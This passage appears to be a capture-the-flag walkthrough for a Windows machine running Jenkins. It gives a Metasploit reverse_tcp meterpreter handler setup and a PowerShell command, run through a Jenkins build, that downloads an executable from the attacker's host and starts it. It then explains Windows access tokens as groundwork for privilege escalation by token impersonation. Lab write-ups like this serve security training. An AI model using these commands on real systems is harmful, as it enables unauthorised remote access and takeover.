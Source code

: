 Size: 73802 bytes.

2. Start Metasploit Handler:

    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 10.8.82.167
    set LPORT 5555
    run

3. Open Jenkins, create new Build, type this in below (or run it inside the terminal when you get in).

   powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.82.167:8000/scp.exe','scp.exe')"

4. Execute Shell Executable

    Start-Process "scp.exe"

5. Check Metasploit, you now have a meterpreter shell!


## [Task 3] Privilege Escalation

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

    user SIDs(security identifier)
    group SIDs
    privileges

amongst other things. More detailed information can be found here.

There are two types of access tokens:

    primary access tokens: those associated with a user account that are generated on log on
    impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

    SecurityAnonymous: current user/client cannot impersonate another user/client
    SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
    SecurityImpersonation: current user/client can impersonate the client's security context on the local system
    SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

